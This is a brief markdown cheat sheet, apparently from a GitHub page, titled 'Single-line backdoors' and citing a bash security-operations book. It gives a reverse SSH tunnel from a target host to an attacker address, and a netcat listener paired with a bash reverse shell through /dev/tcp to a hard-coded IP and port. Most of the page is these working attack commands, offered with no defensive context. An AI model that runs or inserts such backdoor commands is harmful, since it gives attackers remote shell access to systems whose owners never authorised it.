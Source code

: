 # Single-line backdoors

Reverse SSH

```sh
# target
ssh -R 12345:localhost:22 user@attackeripaddress
# attacker
ssh localhost -p 12345
```

Bash backdoor

```sh
# attacker
nc -l 8080
# target
/bin/bash -i < /dev/tcp/192.168.10.5/8080 1>&0 2>&0
```

# Sources and more

* Cybersecurity Ops with bash (2019)
